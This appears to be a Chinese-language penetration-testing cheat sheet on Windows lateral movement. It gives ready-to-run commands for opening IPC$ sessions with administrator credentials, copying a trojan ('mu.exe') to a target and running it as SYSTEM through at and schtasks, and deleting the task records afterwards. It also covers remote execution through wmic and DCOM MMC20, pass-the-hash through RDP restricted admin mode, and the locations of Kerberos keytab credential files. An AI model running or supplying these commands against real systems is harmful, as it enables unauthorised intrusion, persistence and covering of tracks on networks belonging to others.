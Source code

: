 - [IPC&计划任务](#ipc计划任务)
  - [at命令](#at命令)
  - [schtasks命令](#schtasks命令)
- [Psexec](#psexec)
- [WMI](#wmi)
- [DCOM](#dcom)
- [RDP](#rdp)
- [Linux](#linux)
      - [Linux Kerberos 票据](#linux-kerberos-票据)
<a name="szASS"></a>
## IPC&计划任务
条件: 139,445端口<br />建立IPC连接<br />`net use \\192.168.100.190\ipc$ "password" /user:administrator`

1. net time \\192.168.100.190 获取目标系统时间
1. copy命令将马复制到目标主机,`copy mu.exe \\192.168.100.190\C$`
<a name="ysvaC"></a>
### at命令

1. at \\192.168.100.190 1:00PM C:\mu.exe
1. 清除at记录`at \\192.168.100.198 7(任务创建后得到的ID号) /delete`
<a name="gxM9R"></a>
### schtasks命令
已建立IPC

1. `schtasks /create /s 192.168.100.198 /tn test /sc onstart /tr c:\mu.exe /ru system /f`
1. `schtasks /run /s 192.168.100.198 /i /tn "test"`
1. `schtasks /delete /s 192.168.100.190 /tn "test" /f`

使用账号密码<br />/u:administrator<br />/p:"password"<br />/f:强制删除<br />删除ipc$<br />`net use 名称 /del /y`
<a name="xFNjD"></a>
## Psexec


<a name="KjocK"></a>
## WMI
端口:135  
`wmic /node:192.168.100.190 /user:administrator /password:123456789 process call create "cmd.exe /c ipconfig > ip.txt"`<br />wmic命令无回显,可通过ipc$连接将结果写到文件读取
<a name="nbcZk"></a>
## DCOM

1. 建立ipc$连接后
1. `$com = [activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application","192.168.100.205"))`
1. `$com.Document.ActiveView.ExecuteShellCommand('cmd.exe',$null," /c calc.exe","")`
<a name="AojwG"></a>
## RDP
1.在Win8.1和win2012R2以前,RDP连接传输使用明文密码,并且该密码会被存储在远程主机的Lsass.exe进程中,之后引入了受限管理模式,该模式下不再传输普通凭据,从而可以进行Pass tha hash/ticket攻击,但用户必须是管理员权限且不是Protected User group的用户
<a name="wnW8S"></a>
## Linux
如果该计算机是域的一部分,可以使用SSH来请求Kerberos验证,通过启用GSSAPI进行身份验证(-o GSSAPIAuthentication=yes)
<a name="maxM6"></a>
##### Linux Kerberos 票据
位置:

- `/etc/krb5.keytab`.
- 环境变量KRB5_KTNAME,KRB5_CLIENT_KTNAME指定的值.
- [Kerberos 配置文件](https://web.mit.edu/kerberos/krb5-1.12/doc/admin/conf_files/krb5_conf.html)中指定的/etc/krb5.conf.

